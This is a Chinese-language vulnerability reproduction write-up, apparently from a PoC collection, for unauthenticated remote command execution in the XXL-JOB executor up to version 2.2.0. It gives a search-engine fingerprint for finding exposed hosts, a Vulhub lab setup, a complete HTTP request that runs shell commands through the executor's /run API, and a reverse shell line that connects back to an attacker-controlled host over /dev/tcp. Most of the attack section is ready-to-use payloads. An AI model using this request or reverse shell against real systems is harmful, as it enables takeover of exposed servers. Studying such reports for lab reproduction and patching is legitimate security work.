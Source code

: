# XXL-JOB executor 未授权访问漏洞

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

由于 executor 默认没有配置认证，未授权的攻击者可以通过 RESTful API 执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 披露时间

```
2020-10-27
```

## 漏洞影响

```
XXL-JOB <= 2.2.0
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

Vulhub 执行如下命令启动 2.2.0 版本的 XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。客户端（executor）默认返回如下报错信息：

```
{"code":500,"msg":"invalid request, HttpMethod not support."}
```

![](images/XXL-JOB%20executor%20未授权访问漏洞/image-20241112145544060.png)

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](images/XXL-JOB%20executor%20未授权访问漏洞/image-20241112145829960.png)

`touch /tmp/awesome_poc` 已成功执行：

![](images/XXL-JOB%20executor%20未授权访问漏洞/image-20241112145810528.png)

执行反弹 shell 命令：

```
"glueSource": "bash -i >& /dev/tcp/your-ip/8888 0>&1 "
```

![](images/XXL-JOB%20executor%20未授权访问漏洞/image-20241112150237169.png)

监听 8888 端口，接收反弹 shell：

![](images/XXL-JOB%20executor%20未授权访问漏洞/image-20241112150213679.png)

低于 2.2.0 版本的 XXL-JOB 没有 RESTful API，我们可以通过 [Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE) 来执行命令。
